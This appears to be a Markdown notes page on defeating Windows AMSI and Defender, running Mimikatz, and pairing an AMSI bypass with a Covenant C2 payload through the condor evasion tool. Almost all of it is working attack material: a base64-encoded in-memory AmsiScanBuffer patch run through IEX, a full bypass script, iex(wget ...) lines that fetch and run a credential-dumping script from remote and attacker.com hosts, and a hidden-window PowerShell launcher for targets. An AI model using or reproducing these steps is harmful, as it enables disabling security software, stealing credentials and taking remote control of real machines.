








# AMSI Bypass

If you need to run some Powershell command that is being blocked by AMSI, try running this command to get around it:


https://gist.githubusercontent.com/FatRodzianko/c8a76537b5a87b850c7d158728717998/raw/36103d12eec662d532c9127f2396bc347d13c3c5/my-am-bypass.ps1

You can base64 encode the command to be one line. Use CyberChef to encode the code to base64.


CyberChef URL:

https://icyberchef.com/#recipe=To_Base64('A-Za-z0-9%2B/%3D')&input=JFdpbjMyID0gQCIKdXNpbmcgU3lzdGVtOwp1c2luZyBTeXN0ZW0uUnVudGltZS5JbnRlcm9wU2VydmljZXM7CgpwdWJsaWMgY2xhc3MgV2luMzIgewoKICAgIFtEbGxJbXBvcnQoImtlcm5lbDMyIildCiAgICBwdWJsaWMgc3RhdGljIGV4dGVybiBJbnRQdHIgR2V0UHJvY0FkZHJlc3MoSW50UHRyIGhNb2R1bGUsIHN0cmluZyBwcm9jTmFtZSk7CgogICAgW0RsbEltcG9ydCgia2VybmVsMzIiKV0KICAgIHB1YmxpYyBzdGF0aWMgZXh0ZXJuIEludFB0ciBMb2FkTGlicmFyeShzdHJpbmcgbmFtZSk7CgogICAgW0RsbEltcG9ydCgia2VybmVsMzIiKV0KICAgIHB1YmxpYyBzdGF0aWMgZXh0ZXJuIGJvb2wgVmlydHVhbFByb3RlY3QoSW50UHRyIGxwQWRkcmVzcywgVUludFB0ciBkd1NpemUsIHVpbnQgZmxOZXdQcm90ZWN0LCBvdXQgdWludCBscGZsT2xkUHJvdGVjdCk7Cgp9CiJACgpBZGQtVHlwZSAkV2luMzIKJHRlc3QgPSBbQnl0ZVtdXSgweDYxLCAweDZkLCAweDczLCAweDY5LCAweDJlLCAweDY0LCAweDZjLCAweDZjKQokTG9hZExpYnJhcnkgPSBbV2luMzJdOjpMb2FkTGlicmFyeShbU3lzdGVtLlRleHQuRW5jb2RpbmddOjpBU0NJSS5HZXRTdHJpbmcoJHRlc3QpKQokdGVzdDIgPSBbQnl0ZVtdXSAoMHg0MSwgMHg2ZCwgMHg3MywgMHg2OSwgMHg1MywgMHg2MywgMHg2MSwgMHg2ZSwgMHg0MiwgMHg3NSwgMHg2NiwgMHg2NiwgMHg2NSwgMHg3MikKJEFkZHJlc3MgPSBbV2luMzJdOjpHZXRQcm9jQWRkcmVzcygkTG9hZExpYnJhcnksIFtTeXN0ZW0uVGV4dC5FbmNvZGluZ106OkFTQ0lJLkdldFN0cmluZygkdGVzdDIpKQokcCA9IDAKW1dpbjMyXTo6VmlydHVhbFByb3RlY3QoJEFkZHJlc3MsIFt1aW50MzJdNSwgMHg0MCwgW3JlZl0kcCkKJFBhdGNoID0gW0J5dGVbXV0gKDB4MzEsIDB4QzAsIDB4MDUsIDB4NzgsIDB4MDEsIDB4MTksIDB4N0YsIDB4MDUsIDB4REYsIDB4RkUsIDB4RUQsIDB4MDAsIDB4QzMpCiMwOiAgMzEgYzAgICAgICAgICAgICAgICAgICAgeG9yICAgIGVheCxlYXgKIzI6ICAwNSA3OCAwMSAxOSA3ZiAgICAgICAgICBhZGQgICAgZWF4LDB4N2YxOTAxNzgKIzc6ICAwNSBkZiBmZSBlZCAwMCAgICAgICAgICBhZGQgICAgZWF4LDB4ZWRmZWRmCiNjOiAgYzMgICAgICAgICAgICAgICAgICAgICAgcmV0IApbU3lzdGVtLlJ1bnRpbWUuSW50ZXJvcFNlcnZpY2VzLk1hcnNoYWxdOjpDb3B5KCRQYXRjaCwgMCwgJEFkZHJlc3MsICRQYXRjaC5MZW5ndGgp

Command:
```
[System.Text.Encoding]::UTF8.GetString([System.Convert]::FromBase64String("JFdpbjMyID0gQCIKdXNpbmcgU3lzdGVtOwp1c2luZyBTeXN0ZW0uUnVudGltZS5JbnRlcm9wU2VydmljZXM7CgpwdWJsaWMgY2xhc3MgV2luMzIgewoKICAgIFtEbGxJbXBvcnQoImtlcm5lbDMyIildCiAgICBwdWJsaWMgc3RhdGljIGV4dGVybiBJbnRQdHIgR2V0UHJvY0FkZHJlc3MoSW50UHRyIGhNb2R1bGUsIHN0cmluZyBwcm9jTmFtZSk7CgogICAgW0RsbEltcG9ydCgia2VybmVsMzIiKV0KICAgIHB1YmxpYyBzdGF0aWMgZXh0ZXJuIEludFB0ciBMb2FkTGlicmFyeShzdHJpbmcgbmFtZSk7CgogICAgW0RsbEltcG9ydCgia2VybmVsMzIiKV0KICAgIHB1YmxpYyBzdGF0aWMgZXh0ZXJuIGJvb2wgVmlydHVhbFByb3RlY3QoSW50UHRyIGxwQWRkcmVzcywgVUludFB0ciBkd1NpemUsIHVpbnQgZmxOZXdQcm90ZWN0LCBvdXQgdWludCBscGZsT2xkUHJvdGVjdCk7Cgp9CiJACgpBZGQtVHlwZSAkV2luMzIKJHRlc3QgPSBbQnl0ZVtdXSgweDYxLCAweDZkLCAweDczLCAweDY5LCAweDJlLCAweDY0LCAweDZjLCAweDZjKQokTG9hZExpYnJhcnkgPSBbV2luMzJdOjpMb2FkTGlicmFyeShbU3lzdGVtLlRleHQuRW5jb2RpbmddOjpBU0NJSS5HZXRTdHJpbmcoJHRlc3QpKQokdGVzdDIgPSBbQnl0ZVtdXSAoMHg0MSwgMHg2ZCwgMHg3MywgMHg2OSwgMHg1MywgMHg2MywgMHg2MSwgMHg2ZSwgMHg0MiwgMHg3NSwgMHg2NiwgMHg2NiwgMHg2NSwgMHg3MikKJEFkZHJlc3MgPSBbV2luMzJdOjpHZXRQcm9jQWRkcmVzcygkTG9hZExpYnJhcnksIFtTeXN0ZW0uVGV4dC5FbmNvZGluZ106OkFTQ0lJLkdldFN0cmluZygkdGVzdDIpKQokcCA9IDAKW1dpbjMyXTo6VmlydHVhbFByb3RlY3QoJEFkZHJlc3MsIFt1aW50MzJdNSwgMHg0MCwgW3JlZl0kcCkKJFBhdGNoID0gW0J5dGVbXV0gKDB4MzEsIDB4QzAsIDB4MDUsIDB4NzgsIDB4MDEsIDB4MTksIDB4N0YsIDB4MDUsIDB4REYsIDB4RkUsIDB4RUQsIDB4MDAsIDB4QzMpCiMwOiAgMzEgYzAgICAgICAgICAgICAgICAgICAgeG9yICAgIGVheCxlYXgKIzI6ICAwNSA3OCAwMSAxOSA3ZiAgICAgICAgICBhZGQgICAgZWF4LDB4N2YxOTAxNzgKIzc6ICAwNSBkZiBmZSBlZCAwMCAgICAgICAgICBhZGQgICAgZWF4LDB4ZWRmZWRmCiNjOiAgYzMgICAgICAgICAgICAgICAgICAgICAgcmV0IApbU3lzdGVtLlJ1bnRpbWUuSW50ZXJvcFNlcnZpY2VzLk1hcnNoYWxdOjpDb3B5KCRQYXRjaCwgMCwgJEFkZHJlc3MsICRQYXRjaC5MZW5ndGgp")) | IEX
```

## Execution



# Defeating Windows Defender & Bypassing Amsi And Running Mimikatz

## Execution



Command:
```
iex(wget https://gist.github.com/pich4ya/e93abe76d97bd1cf67bfba8dce9c0093/raw/e32760420ae642123599b6c9c2fddde2ecaf7a2b/Invoke-OneShot-Mimikatz.ps1 -UseBasicParsing)
```

# Using condor tool + AMSI bypass + Covenant C2

The condor tool is used for evasion of protection like AVs/EDRs/XDRs. You can use it to combo an AMSI bypass and a C2 like Covenant.

1. On the attacker's machine, create a folder where there will be two powershell scripts, one to bypass AMSI and another for the target to connect with C2.

bypass.ps1

```
# TLDR:
# iex(wget https://gist.githubusercontent.com/pich4ya/e93abe76d97bd1cf67bfba8dce9c0093/raw/4cee3d04127ca304bb04c9d95f3146eb7e9985a8/Invoke-OneShot-Mimikatz.ps1 -UseBasicParsing)
#
# @author Pichaya Morimoto (p.morimoto@sth.sh)
# One Shot for M1m1katz PowerShell Dump All Creds with AMSI Bypass 2022 Edition
# (Tested and worked on Windows 10 x64 patched 2022-03-26)
#
# Usage:
# 1. You need a local admin user's powershell with Medium Mandatory Level (whoami /all)
# 2. iex(wget https://gist.githubusercontent.com/pich4ya/e93abe76d97bd1cf67bfba8dce9c0093/raw/4cee3d04127ca304bb04c9d95f3146eb7e9985a8/Invoke-OneShot-Mimikatz.ps1 -UseBasicParsing)
# or
# iex(wget https://attacker-local-ip/Invoke-OneShot-Mimikatz.ps1 -UseBasicParsing)
#
# AMSI Bypass is copied from payatu's AMSI-Bypass (23-August-2021)
# https://payatu.com/blog/arun.nair/amsi-bypass
$code = @"
using System;
using System.Runtime.InteropServices;
public class WinApi {

        [DllImport("kernel32")]
        public static extern IntPtr LoadLibrary(string name);

        [DllImport("kernel32")]
        public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);

        [DllImport("kernel32")]
        public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr dwSize, uint flNewProtect, out int lpflOldProtect);

}
"@

Add-Type $code

$amsiDll = [WinApi]::LoadLibrary("amsi.dll")
$asbAddr = [WinApi]::GetProcAddress($amsiDll, "Ams"+"iScan"+"Buf"+"fer")
$ret = [Byte[]] ( 0xc3, 0x80, 0x07, 0x00,0x57, 0xb8 )
$out = 0

[WinApi]::VirtualProtect($asbAddr, [uint32]$ret.Length, 0x40, [ref] $out)
[System.Runtime.InteropServices.Marshal]::Copy($ret, 0, $asbAddr, $ret.Length)
[WinApi]::VirtualProtect($asbAddr, [uint32]$ret.Length, $out, [ref] $null)


# nishang - 2.2.0 (Jul 24, 2021)
# Change this to "attacker-local-ip" for internal sources

iex(wget http://attacker.com/exec.ps1 -UseBasicParsing)
```
[Reference](https://gist.github.com/pich4ya/e93abe76d97bd1cf67bfba8dce9c0093)

On the last line where there is the ```wget``` command, put the IP of the attacker's machine where it will contain the two files (bypass.ps1 and exec.ps1)

2. Go to Covenant and generate a powershell payload





The payload will look like this:

```
sv o (New-Object IO.MemoryStream);sv d (New-Object IO.Compression.DeflateStream([IO.MemoryStream][Convert]::FromBase64String('7Vp7cFzle...
```

3. Now create a file called exec.ps1 and paste the modified payload

4. Open an HTTP port so the target can connect to it and run bypass.ps1



5. Run the following command using the condor tool:

```
python3 condor.py -p windows/x64/exec
```

6. Paste the following command:

```
powershell -Sta -Nop -Window Hidden -Command "iex(wget http://attacker.com/bypass.ps1 -UseBasicParsing)"
```

Substitute "attacker.com" for the ip of the attacker's machine.

7. After generating the EXE, run it on the target machine.




